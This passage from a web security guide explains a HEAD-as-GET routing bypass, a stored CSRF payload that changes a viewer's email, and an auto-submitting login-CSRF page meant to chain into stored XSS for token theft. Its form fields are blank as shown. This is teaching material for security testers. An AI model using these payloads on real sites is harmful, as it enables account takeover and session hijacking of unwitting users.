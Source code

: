 ### **HEAD method bypass**

The first part of [**this CTF writeup**](https://github.com/google/google-ctf/tree/master/2023/web-vegsoda/solution) is explained that [Oak's source code](https://github.com/oakserver/oak/blob/main/router.ts#L281), a router is set to **handle HEAD requests as GET requests** with no response body - a common workaround that isn't unique to Oak. Instead of a specific handler that deals with HEAD reqs, they're simply **given to the GET handler but the app just removes the response body**.

Therefore, if a GET request is being limited, you could just **send a HEAD request that will be processed as a GET request**.

## **Exploit Examples**

### Stored CSRF via user-generated HTML

When rich-text editors or HTML injection are allowed, you can persist a passive fetch that hits a vulnerable GET endpoint. Any user who views the content will automatically perform the request with their cookies.

- If the app uses a global CSRF token that is not bound to the user session, the same token may work for all users, making stored CSRF reliable across victims.

Minimal example that changes the viewer’s email when loaded:

```html
![[https://example.com/account/settings?newEmail=attacker@example.com]]
```

### Login CSRF chained with stored XSS

Login CSRF alone may be low impact, but chaining it with an authenticated stored XSS becomes powerful: force the victim to authenticate into an attacker-controlled account; once in that context, a stored XSS in an authenticated page executes and can steal tokens, hijack the session, or escalate privileges.

- Ensure the login endpoint is CSRF-able (no per-session token or origin check) and no user interaction gates block it.
- After forced login, auto-navigate to a page containing the attacker’s stored XSS payload.

Minimal login-CSRF PoC:

```html
<html>
  <body>
    <form action="https://example.com/login" method="POST">
      
      
      
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
      // Optionally redirect to a page with stored XSS in the attacker account
      // location = 'https://example.com/app/inbox';
    </script>
  </body>
</html>
```
